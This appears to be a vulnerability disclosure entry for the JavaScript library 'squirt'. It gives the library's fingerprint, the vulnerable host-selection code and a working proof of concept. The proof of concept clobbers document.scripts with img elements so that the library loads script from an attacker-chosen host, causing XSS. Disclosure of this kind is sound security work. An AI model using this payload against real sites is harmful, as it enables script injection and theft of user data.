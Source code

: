 ## squirt

### Meta

+ Library: squirt
+ Stars: 1.2K
+ Version: v0.0.1
+ Fingerprint: `typeof window.sq !== 'undefined'`
+ Payload: ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/cameron/squirt/tree/master`

### Vulnerable Code Snippet

```javascript
var sq = window.sq;
sq.version = '0.0.1';
sq.host =  window.location.search.match('sq-dev') ?
  document.scripts[document.scripts.length - 1].src.match(/\/\/.*\//)[0]
        : '//www.squirt.io/bm/';
```


## PoC

Visit the page: `http://10.161.159.131:8080/squirt/poc.html?sq-dev=localhost:9999`

```html
<!--Library-->
<script src="./squirt.js"></script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```

